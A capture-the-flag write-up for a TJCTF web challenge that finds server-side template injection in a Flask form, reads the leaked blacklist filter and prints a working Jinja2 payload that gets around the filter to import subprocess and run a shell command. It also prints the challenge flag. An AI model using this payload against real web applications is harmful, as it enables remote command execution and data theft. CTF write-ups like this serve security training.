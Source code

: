 # Congenial Octo Couscous

Try filling out the form once -- it returns some of our own input. Sign of XSS or SSTI.  
`<b>1</b>` doesn't do anything, but `{{config}}` does.

```text
SERVER_FILEPATH&#39;: &#39;/secretserverfile.py&#39;}&gt;.
```

This line ^^^ in particular looks interesting. Visiting the link `/secretserverfile.py` reveals the source code for the challenge, which includes some code about filtration.

```javascript
if '{' in text or '}' in text:
        text2=re.sub(r'\s','',text).lower()
        illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
```

So it seems like the challenge is to bypass the filter to read the strategy guide. Given flask is written in python, it would make sense to import a module that can execute commands; althought os is filtered, subprocess is not, and now the only challenge is figuring out how to import. After a fair bit of googling, it turns out

```text
request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')
```

Can be used to import a module. Combining this with subprocess we get a final payload of:

```javascript
{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('subprocess')|attr('getoutput')('cat strategyguide.txt')}}
```

and reading the file gives us: Best formation that wins every time:  
`DDDDD DLLLD DLHLD DLLLD DDDDD Key: D=Drone L=Landscaper H=HQ Beginning of game strategy`:

## tjctf{c0ng3n1al\_500iq\_str4ts\_ez\_dub}

